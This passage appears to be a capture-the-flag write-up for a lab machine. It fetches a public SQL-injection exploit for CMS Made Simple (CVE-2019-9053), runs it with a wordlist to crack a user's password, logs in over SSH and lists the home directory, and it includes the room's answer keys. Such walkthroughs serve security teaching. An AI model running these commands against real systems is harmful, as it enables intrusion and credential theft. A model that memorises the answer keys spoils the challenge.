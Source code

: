 ```shell
Shellcodes: No Results
```

The table showed results that the CMS Made Simple 2.2.8 is vulnerable to **SQL Injection** !!!
I did a quick search about CMS Made Simple CVE and then found the result in Exploit DB.

![image-20200826150154009](https://user-images.githubusercontent.com/22939654/91794635-c5950e00-ec45-11ea-98aa-a95e87ee6da1.png)

> <u>Answer Keys</u>
>
> 3. What's the CVE you're using against the application?: **CVE-2019-9053**
> 4. To what kind of vulnerability is the application vulnerable?: **SQLi**

Then I downloaded the exploit code.

```shell
$ wget https://www.exploit-db.com/raw/46635
```



------

##### 3. Time to attack!!!

Before exploiting, take a look to the code to find how to use the exploit command. If already, then attack!!!

```bash
$ python 46635.py -u http://10.10.237.205/simple --crack -w /usr/share/wordlists/rockyou.txt
```

Wait for a moment... Then CLICK!

```markdown
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

> <u>Answer Keys</u>
>
> 5. What's the password?: **secret**
> 6. Where can you login with the details obtained?: **SSH**

Since I obtained the username and password, and port 2222 was opened. I logged in to target's machine via ssh by using these credential.

```bash
$ ssh mitch@10.10.237.205 -p 2222
```

![image-20200826153251765](https://user-images.githubusercontent.com/22939654/91794651-d47bc080-ec45-11ea-9f20-99e202da11e7.png)

Time to explore the machine!!!

```bash
$ ls -la
total 36
drwxr-x--- 3 mitch mitch 4096 aug 19  2019 .
drwxr-xr-x 4 root  root  4096 aug 17  2019 ..
-rw------- 1 mitch mitch  178 aug 17  2019 .bash_history
-rw-r--r-- 1 mitch mitch  220 sep  1  2015 .bash_logout
-rw-r--r-- 1 mitch mitch 3771 sep  1  2015 .bashrc
drwx------ 2 mitch mitch 4096 aug 19  2019 .cache
-rw-r--r-- 1 mitch mitch  655 mai 16  2017 .profile
-rw-rw-r-- 1 mitch mitch   19 aug 17  2019 user.txt
-rw------- 1 mitch mitch  515 aug 17  2019 .viminfo
```
